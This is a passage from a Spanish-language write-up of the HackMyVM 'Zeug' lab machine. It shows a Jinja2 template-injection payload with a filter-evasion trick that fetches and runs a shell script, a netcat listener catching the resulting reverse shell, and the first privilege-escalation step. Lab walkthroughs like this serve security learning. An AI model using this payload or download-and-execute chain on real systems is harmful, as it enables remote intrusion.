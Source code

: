 Una vez lo tengamos todo listo, podemos subir el fichero **`HTML`** a la web. Una vez subido podemos verificar la descarga porque nos llega la solicitud:

```shell
┌──(root㉿kali)-[~/…/VMs/HMV/Zeug/exploits]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.1.108 - - [20/Feb/2024 11:39:02] "GET /shel.sh HTTP/1.1" 200 -
```

Ahora ya estamos preparados para obtener una **`Reverse Shell`**, solo falta editar una última vez el fichero y ponernos en escucha:

```html
<html>
   <head>
   </head>
   <body>
      &#123;&#123; config.__class__.from_envvar.__globals__.__builtins__.eval("__impor" + "t__('o' + 's').pop" + "en('bash shel.sh').read()") &#125;&#125;
   </body>
</html>
```

```shell
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Zeug]
└─# nc -nlvp 4444
listening on [any] 4444 ...
```

Al subir nuestro último fichero **`HTML`** se nos entablará la conexión con la máquina víctima:

```shell
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Zeug]
└─# nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.1.103] from (UNKNOWN) [192.168.1.108] 57448
cosette@zeug:~/zeug$
```

¡Qué bien, estamos dentro de la máquina como el usuario **`Cosette`**!

### Subida de privilegios #1
Ahora que estamos dentro de la máquina debemos escalar privilegios a otro usuario si queremos el **`control total`** de la máquina.

Para comenzar listé todos los comandos que podía realizar en la máquina con el comando `sudo -l`:

```shell
cosette@zeug:~$ sudo -l
Matching Defaults entries for cosette on zeug:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User cosette may run the following commands on zeug:
    (exia) NOPASSWD: /home/exia/seed
```
